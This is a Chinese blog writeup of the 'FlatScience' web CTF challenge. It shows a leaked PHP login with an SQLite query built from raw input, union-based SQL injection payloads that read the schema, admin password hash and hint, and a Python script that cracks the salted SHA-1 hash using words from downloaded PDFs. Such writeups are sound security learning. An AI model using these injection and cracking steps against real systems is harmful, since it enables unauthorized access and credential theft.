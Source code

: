 <!--yml
category: 未分类
date: 2022-04-26 14:51:36
-->

# 攻防世界-web-FlatScience-从0到1的解题历程writeup_CTF小白的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_41429081/article/details/105519332](https://blog.csdn.net/qq_41429081/article/details/105519332)

## 题目分析

首先拿到题目一脸懵逼，就是套娃界面，一层一层的pdf论文存放的目录。

所以先扫一下目录

![图片](img/8652bb15d6948fd2fa07b9e4727acaa8.png)

发现存在admin.php和login.php，且扫描结果显示login.php有sql注入漏洞

尝试了一下发现登陆成功后就跳转到首页了

![图片](img/3568d40cbbe5f61d0be872c646246814.png)

并且设置了一个cookie内容为+admin

我明明使用test登陆的结果却显示的admin,应该是没有test用户，所以默认取得数据库第一条记录。

然后去看看admin.php

发现提示为“do not even try to bypass this ”

尝试弱口令失败

看了wp才知道有个关键点是

有一个提示是“TODO: Remove ?debug-Parameter!”

所以要构建

```
http://159.138.137.79:55036/login.php?debug 
```

得到关键部分代码

```
if(isset($_POST['usr']) && isset($_POST['pw'])){ 
        $user = $_POST['usr']; 
        $pass = $_POST['pw']; 
        $db = new SQLite3('../fancy.db'); 

        $res = $db->query("SELECT id,name from Users where name='".$user."' and password='".sha1($pass."Salz!")."'"); 
    if($res){ 
        $row = $res->fetchArray(); 
    } 
    else{ 
        echo "<br>Some Error occourred!"; 
    } 
    if(isset($row['id'])){ 
            setcookie('name',' '.$row['name'], time() + 60, '/'); 
            header("Location: /"); 
            die(); 
    } 
} 
```

## 解题流程

原来还是得从login.php注入入手。

使用联合查询

![图片](img/42cb233e70a84741b754d73ef94bdd56.png)

在查数据库的时候尝试构建语句查询失败

```
usr=test' union select 1,database() --&pw=a 
```

![图片](img/150157fcfbfb390144d0d78576f6cfe8.png)

发现是SQLite3 ,和常规的mysql的语句有不同，所以百度补一波SQLite3的注入

发现SQLite注入一般是使用sqlite_master隐藏表

```
usr=test' union select name,sql from sqlite_master; --&pw=a 
```

得到

```
CREATE TABLE Users（id int primary key，name  varchar(255),password varchar(255),hint varchar(255)) 
```

所以我们得到存在Users表的字段为id,name,password,hint
这边容易查询得到admin的password

```
usr=test' union select 1,(select password from Users limit 0,1) --&pw=a 
```

![图片](img/67a664eed629cb77238ecc062a0733cb.png)

得到

```
sha1($pass."Salz!") 
```

结果为3fab54a50e770d830c0416df817567662a9dc85c
然后查询一下hint

```
usr=test' union select 1,(select hint from Users limit 0,1) --&pw=a 
```

结果为‘my fav word in my fav paper?!’
意思就是密码在他的其中一篇paper里面喽？？

随便找了个整站下载软件，先把所有的pdf给下载下来

![图片](img/a4a2bc186e9067eeac588bc5c157d85a.png)

总共应该是30篇paper

最后拿到大佬的exp，在我python3的环境中调着跑了一下

```
from io import StringIO
from pdfminer.pdfinterp import PDFResourceManager, PDFPageInterpreter
from pdfminer.converter import TextConverter
from pdfminer.layout import LAParams
from pdfminer.pdfpage import PDFPage
import sys
import string
import os
import hashlib

def get_pdf():#打开pdf文件
    return [i for i in os.listdir("./") if i.endswith("pdf")]

def convert_pdf_2_text(path):#获取pdf文本
    rsrcmgr = PDFResourceManager()
    retstr = StringIO()
    device = TextConverter(rsrcmgr, retstr, codec='utf-8', laparams=LAParams())
    interpreter = PDFPageInterpreter(rsrcmgr, device)
    with open(path, 'rb') as fp:
        for page in PDFPage.get_pages(fp, set()):
            interpreter.process_page(page)
        text = retstr.getvalue()
    device.close()
    retstr.close()
    return text

def find_password():#读取密码
    pdf_path = get_pdf()
    for i in pdf_path:
        print("Searching word in " + i)
        pdf_text = convert_pdf_2_text(i).split(" ")
        for word in pdf_text:
            sha1_password = hashlib.sha1((word + "Salz!").encode()).hexdigest()
            if sha1_password == '3fab54a50e770d830c0416df817567662a9dc85c':
                print("Find the password :" + word)
                exit()

if __name__ == "__main__":
    find_password() 
```

![图片](img/ddc09234ed96be9bc41723dc0797c4cd.png)

得到admin的密码为ThinJerboa

最后在admin.php中登陆即可拿到flag